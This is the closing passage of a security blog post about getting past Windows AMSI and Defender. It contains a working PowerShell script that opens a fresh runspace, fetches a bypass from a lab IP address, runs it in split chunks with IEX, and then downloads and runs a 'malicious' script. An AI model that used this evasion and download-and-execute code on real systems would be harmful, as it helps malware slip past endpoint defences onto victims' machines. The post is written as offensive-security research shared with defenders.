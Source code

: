 
We don't run the patched AmsiOpenSession until the next prompt, which
explains why the bypass doesn't work for our malicious script but works
thereafter.

The solution is to use the Runspace method to force a new AMSI session to open. The
script below is the same as previously, but using the AmsiOpenSession bypass,
and adding our malicious script.

```
$Runspace =[runspacefactory]::CreateRunspace()
$Runspace.Open()

$PowerShell = [powershell]::Create()
$PowerShell.runspace = $Runspace
$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring(
"http://192.168.159.131/rastamouse/full2.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,583))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(583,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(643,126))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/malicious.txt")|IEX}).Invoke();
```

Let's test it. Very nice!

![image19.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image19.png)



## Conclusion

Our imaginary script kiddie has made a little bit of progress since their
time of just modifying a short and sweet AMSI bypass tweet.

We demonstrated a script-splitting technique which reduces Windows
Defender's ability to make connections between different part of a script.

We also demonstrated a way to bypass what could be a potential future
mitigation to the script-splitting technique.

Finally, we showed how to succesfully attack the AmsiOpenSession function,
and tackle a significant hurdle in the implementation of such a
bypass.

I hope you will have found some inspiration to dig
further, come up with new ideas, and share your findings with the infosec community.

![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fwebbie321.github.io%2Fblog%2Fbypassing-AMSI-like-a-Script-Kiddie%2F)
